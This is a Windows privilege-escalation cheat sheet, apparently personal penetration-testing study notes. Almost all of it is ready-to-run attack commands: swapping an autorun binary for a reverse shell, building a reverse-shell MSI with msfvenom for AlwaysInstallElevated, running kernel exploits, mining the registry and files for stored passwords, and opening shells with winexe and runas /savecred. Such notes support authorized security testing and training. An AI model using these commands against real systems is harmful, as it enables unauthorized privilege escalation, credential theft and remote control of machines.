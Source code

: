 
 ### DLL Hijacking 
 1.   `.\winPeas.exe quiet servicesinfo` Check write permissions in Path folder(DLL hijacking)
 2.  `.\accesschk.exe /accepteula -uvqc user <SERVICENAME>` ***check non microsoft service that has Stop and Start access***
 3. ` sc qc <SERVICENAME>` confirm manually that it runs with local system
 4. In process

 ### Registry (Exploit the AUTO RUN in registery)
 1.  `.\winPEASany.exe quiet applicationsinfo` or manually `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
 2.  If done manually use accescheck to verfiy every file location. E.G.`\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
 3.  `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"` copy revershell
 4.  start a netcat listener and login as admin and restart

 
 ### AlwaysInstallElevate
 check if both values are 1.\
 0. `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 1. `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\ 
 2. or ` reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated and 
 3. `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
 4. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f msi >reverse.msi`  (create a payload) 
 5. Transfer payload to Temp and execute
 6. `msiexec /quiet  /qn /i "C:\Windows\Temp\reverse.msi"`


 ### SeImpersonatePrivilege 
 
 
 ### Kernal exploits (last resort)
 0. Extract `systeminfo` and save it to systeminfo.txt in kali (should be in same directory)
 1. `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more`
 2. cross reference with the site https://github.com/SecWiki/windows-kernel-exploits to see if we have binaries
 3. Move the binary to window victim and run it with reverseshell to get root. 
 4. open netcat listener 
 5.  `.\x64.exe C:\PrivEsc\reverse.exe`
 
 
 ### Passwords
 1. `.\winPEASany.exe quiet filesinfo userinfo` or manually  ` reg query HKLM /f password /t REG_SZ /s` and `reg query HKCU /f password /t REG_SZ /s`
 2. `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
 3. `reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s`
 4. `winexe -U 'admin%password123' //TARGETIP cmd.exe` spawn a shell with kali
 5. or `winexe -U 'admin%password123' --system //TARGETIP cmd.exe` for system privilege
 ### Saved Credentials
 1. `.\winPEASany.exe quiet cmd windowscreds`
 2. ` cmdkey /list` to confirm manually  if there arent any saved creds  try `C:\PrivEsc\savecred.bat`
 3. start netcat linstener
 4. `runas /savecred /user:admin C:\PrivEsc\reverse.exe`
 ### Configuration files
1.  `.\winPEASany.exe quiet cmd searchfast filesinfo`
2. Run recursive command manually. Do not run it on C:\ root but on `user directory or admin directory`
3. ` dir /s *pass* == *.config`  and ` findstr /si password *.xml *.ini *.txt`